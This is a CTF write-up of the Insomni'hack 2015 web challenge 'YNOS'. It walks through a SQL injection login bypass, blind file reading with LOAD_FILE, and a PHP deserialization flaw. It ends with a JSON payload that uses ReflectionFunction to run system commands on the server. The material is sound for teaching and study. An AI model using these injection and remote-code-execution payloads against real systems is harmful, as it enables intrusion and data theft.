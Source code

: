 # Insomni’hack CTF 2015: YNOS

**Category:** Web
**Points:** 100
**Author:** clZ
**Description:**

> <https://www.youtube.com/watch?v=O2rGTXHvPCQ>
>
> So many hacking scenes, so little sk1llz…
>
> Apparently [this website](http://ynos.teaser.insomnihack.ch/) likes these stupid films. Pwn them and get the flag which is in a pretty obvious file in the webroot.

## Write-up

<http://ynos.teaser.insomnihack.ch/> presents a login screen. Some random guesses reveal we can log in using the username `admin` with password `admin`. Now we can browse artists, films, and directors. Clicking any of those links triggers an Ajax request to `/INSO.RPC` with some JSON-formatted data:

```bash
$ curl -H 'Content-Type: application/json' -H 'Accept: */*' -H 'Cache-Control: no-cache' -H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: AWSELB=CFABFDBD1C5BB6C16340B9340EA064028E4DF570D44D64084C319E70EE8D963FBDB0FBB63151BAE16EB9FFA8E0D4123E34E5D7D9AA1E396E163C4F960FFBFF45E6083CB961; session=fe5e3eddfcad1992c22b98cfd8d3e5b3' --data-binary '{"c":{"name":"page"},"a":{"name":"render","params":{"name":"artists"}}}' 'http://ynos.teaser.insomnihack.ch/INSO.RPC'
<fieldset>

<!-- Form Name -->
<legend>Artists</legend>


<ul class="list-group">
  <li class="list-group-item">Jonny Lee Miller</li>
  <li class="list-group-item">Angelina Jolie</li>
  <li class="list-group-item">Jesse Bradford</li>
  <li class="list-group-item">Matthew Lillard</li>
  <li class="list-group-item">Laurence Mason</li>
  <li class="list-group-item">Fisher Stevens</li>
</ul>

</fieldset>
```

### By team "curryboys" - Istvan Chung, Husayn Karimi, William Marshall

This one boils down to a boolean SQL injection attack and a code
execution from a custom PHP deserialization function. I noticed by
using Firebug that the main login screen encodes the username and
password as JSON in a POST request to /INSO.RPC on the server, in the format

```
{"c":{"name":"user"},"a":{"name":"login","params":"username|password"}}
```

Although I didn't know it at the time, it turns out that this is in fact
the serialized format of a `c`lass called `user`, requesting the
`a`ction `login`, a function to be called with the given parameters.
Placing the string `' OR 1=1 --` in for username allowed me to login and
get a session cookie quite easily. However, all this lets us do is make
another call of the form

```
{"c":{"name":"page"},"a":{"name":"render","params":"home"}}
```

(where we can substitute `"artists"`, `"films"`, `"directors"`, or
`"logout"` instead of `"home"`). Unfortunately, none of those pages are
of any use, so I went back to the original SQL injection. The challenge
states that the flag is in an "obvious" file in the webroot, so I
decided that I'd try to find where that was on the server. Since we can
get binary information out of the SQL injection (login failed or
succeeded), we can test for the presence of files using the query

```
LOAD_FILE('/path/to/file') IS NOT NULL
```

I managed to find `/etc/apache2/apache2.conf`, indicating that we were
looking at an Apache 2 server, and through trial and error eventually
found the existence of `/var/www/html/index.php`. Quick testing showed
that `flag.txt`, `flag`, `FLAG`, etc were not present, so I used binary
search to brute-force first the length, and then the contents of
`index.php` and `INSO.RPC` character-by-character, which contain
references to `classes.php` and `functions.php`, which I read out as
well. `functions.php` is reproduced here:

```
<?php

function parseParams($params) {
  if(is_array($params)) {
    return $params;
  }
  else {
    return explode("|",$params);
  }
}

function myDeserialize($object) {
  global $session;
  $class = $object["c"];
  $action = $object["a"];
  $cname = $class["name"];
  $cparams = Array();
  if(isset($class["params"])) {
    $cparams = $class["params"];
  }
  $my_obj = new $cname($cparams);
  $aname = $action["name"];
  $aparams = Array();
  if(isset($action["params"])) {
    $aparams = parseParams($action["params"]);
  }

  call_user_func_array(array($my_obj,$aname),$aparams);

}

?>
```

`myDeserialize` is called by INSO.RPC to handle every incoming request.
It lets us create an instance of any class we desire with any
constructor parameters, and then call any method on that class with any
parameters. We'd like to just call a function like `system`, but
`system` isn't the method of any class. In addition, the classes in
`classes.php` appeared to be useless for locating the flag. However,
the PHP built-in class [`ReflectionFunction`][rf] comes to the rescue, as
its `invoke` method lets us call the function we supply in the
constructor. We can use the serialization vulnerability to make the
call

```
new ReflectionFunction("system").invoke("ls")
```

We serialize this into

```
{"c":{"name":"ReflectionFunction", "params":"system"},
 "a":{"name":"invoke","params":"ls"}}
```

and we get the celebration-inducing output

```
INSO.RPC
___THE_FLAG_IS_IN_HERE___
___THE_FLAG_IS_IN_HERE___.save
artists.php
bootstrap.min.css
bootstrap.min.js
classes.php
directors.php
films.php
functions.php
home.php
index.php
jquery-2.1.1.min.js
login.php
logout.php
preload.php
```

Changing `ls` to `cat ___THE_FLAG_IS_IN_HERE___` gives us our flag:

```
INS{Gotta_L0ve_l33t_serialization_suff!}
```

[rf]: http://php.net/manual/en/class.reflectionfunction.php

## Other write-ups and resources

* none yet
